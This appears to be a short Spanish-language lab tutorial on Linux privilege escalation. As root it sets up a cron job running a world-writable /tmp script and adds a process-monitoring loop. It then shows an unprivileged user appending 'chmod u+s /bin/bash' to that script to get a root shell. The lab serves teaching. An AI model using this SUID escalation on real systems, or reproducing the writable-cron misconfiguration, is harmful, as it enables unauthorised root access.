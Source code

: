 # Montando mini laboratorio

> Esto debe ser como root

en /tmp creamos un script.sh

le damos permisos de ejecucion y que otros puedan escribir script.sh
```bash
chmod +x script.sh
chmod o+w script.sh
```

abrimos el crontab con 
```bash
crontab -e
```

y añadimos la siguiente linea
```bash
* * * * * /bin/bash /tmp/script.sh
```
esto lo que hace es ejecutar el script.sh cada minuto

### Como usuario no privilegiado

```bash
cat /tmp/script.sh
```

```bash
#!/bin/bash
echo "Hola mundo" >> /tmp/archivo.txt
```

ahora como saber por ejemplo que se esta ejecutando el script.sh?

se puede hacer un script que detecte si el script.sh se esta ejecutando

creamos un archivo procmon.sh
```bash
#!/bin/bash
old_procs=$(ps -eo user,command)

while true; do
	new_procs=$(ps -eo user,command)
	diff <(echo "$old_procs") <(echo "$new_procs") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
	old_procs=$new_procs
done
```

este script puede detectar el script.sh que se esta ejecutando

si  lo editamos al script  agregandole 
```bash
#!/bin/bash
echo "Hola mundo" >> /tmp/archivo.txt

chmod u+s /bin/bash

```

eso lo que hace es que cuando se ejecute bash se ejecutara como root